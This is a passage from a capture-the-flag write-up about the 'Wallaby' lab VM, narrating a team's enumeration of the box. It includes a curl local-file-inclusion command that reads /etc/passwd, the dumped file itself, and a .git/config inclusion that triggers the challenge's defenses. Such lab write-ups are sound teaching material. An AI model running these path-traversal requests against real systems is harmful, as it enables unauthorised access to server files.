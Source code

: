 <html><head><title>Wallaby's Server</title>
...
</head><body><p style="text-align:center;">What the heck is this?  Some guy named <em>ctlfish
</em> is trying to penetrate my server?  Loser must not know I'm the great Wallaby!</p>
<br><p style="text-align:center;">Let's <strong><em>observe</em></strong> him for now, maybe I could learn about him from his behavior. <br>
<img src="/eye.jpg"></p></body></html>
We grabbed the image and "Giuseppe" and "SteveyDevey" examined it with strings and tried some brute force attacks with steghide, but it turned out to be a dead end.

I continued manually exploring via the form, and started to see some interesting things. When I tried a local file inclusion to grab /etc/passwd, I got a snarky response from wallaby.

root@kali:~/src/wallaby# curl  http://wallaby/?page=../../../etc/passwd
...
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
walfin:x:1000:1000:walfin,,,:/home/walfin:/bin/bash
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:109:117:MySQL Server,,,:/nonexistent:/bin/false
steven?:x:1001:1001::/home/steven?:/bin/bash
ircd:x:1003:1003:,,,:/home/ircd:/bin/bash
root@kali:~/src/wallaby#
We also tried a different file inclusion, with a URL we discovered via dirb, and got a different snarky message, which also changed the behavior of the machine!

root@kali:~/src/wallaby# curl target/?page=.git/config
...
<h2>That's some fishy stuff you're trying there <em></em>buddy.  You must think Wallaby codes like a monkey!  I better get to securing this SQLi though...</h2>
         <br />(Wallaby caught you trying an LFI, you gotta be sneakier!  Difficulty level has increased.)
root@kali:~/src/wallaby#
After this response, port 80 stopped responding. "Matato" enumerated with nmap again, and discovered that apache had moved to port 60080. Remember how scanning with nikto caused port 80 to close? It was a similar query. "Matato" reverted a couple times and confirmed the cause.
